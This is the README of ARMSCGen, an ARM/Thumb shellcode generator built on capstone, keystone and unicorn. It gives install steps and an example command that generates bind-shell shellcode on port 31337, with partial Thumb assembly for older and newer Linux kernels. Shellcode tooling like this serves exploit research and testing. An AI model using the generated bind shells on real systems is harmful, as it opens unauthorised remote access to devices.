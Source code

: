 ### Shellcodes for ARM/Thumb mode

Ideas came from [shell-storm](http://www.shell-storm.org) and [pwntools/pwnies](https://github.com/Gallopsled/pwntools).

Thanks to share all of brilliant sources on the net.

I'm interested in mobile platform and archtecture like Android on ARM, Router on MIPS and so on.

This project named ARMSCGen focus on shellcode on ARM Architecture especially ARMv7 Thumb Mode.

### Requirement

ARMSCGen highly depends on ``{capstone|keystone|unicorn}-engine.``

[Capstone](http://www.capstone-engine.org) is needed to disassemble codes.
Install Capstone with:

``$sudo pip install capstone``

[Keystone](http://www.keystone-engine.org) is needed to assemeble shellcodes.
Install Keystone with:

``$sudo pip install keystone-engine``

or refers to [here](http://www.keystone-engine.org/docs/)
    
[Unicorn Engine](http://www.unicorn-engine.org/) is needed to emulate shellcodes.
For installing Unicorn Engine, refers to [here](http://www.unicorn-engine.org/docs/)

### Installation

``$sudo python setup.py install``

### Usage

reads ``examples`` directory

and

uses ``scgen.py`` in CLI mode

### List of Shellcodes 

please refer to ``shellcodes_lists.md`` or ``scgen -l -a all``

### Notes

Some of thumb mode shellcodes have new option named ``version``.

If you'd like to test shellcodes on old kernel like 2.x then

try to use this option.  ``for example``


```
# linux kernel 2.4 - socketcall
$ scgen -a thumb bindshell 31337 4 2 0 -f a

/* socketcall( socket, { 2, 1, 6 } ) */
movs r1, #2
movs r2, #1
movs r3, #6
push {r1-r3}
movs r0, #1
mov  r1, sp
movs r7, #102
svc 1

# linux kernel 3.x or later
$ scgen -a thumb bindshell 31337 4 3 0 -f a

/* socket(...) */
movs r0, #2
movs r1, #1
subs r2, r2, r2
subs r7, r7, r7
adds r7, r7, #255
adds r7, r7, #26
svc 1 

```

### Documentation

(need to upgrade) URL: ``http://armscgen.readthedocs.org/`` or ``/docs/`` in source

### TODO

writes shellcodes precisely and writes docs in detail

(To be continued)
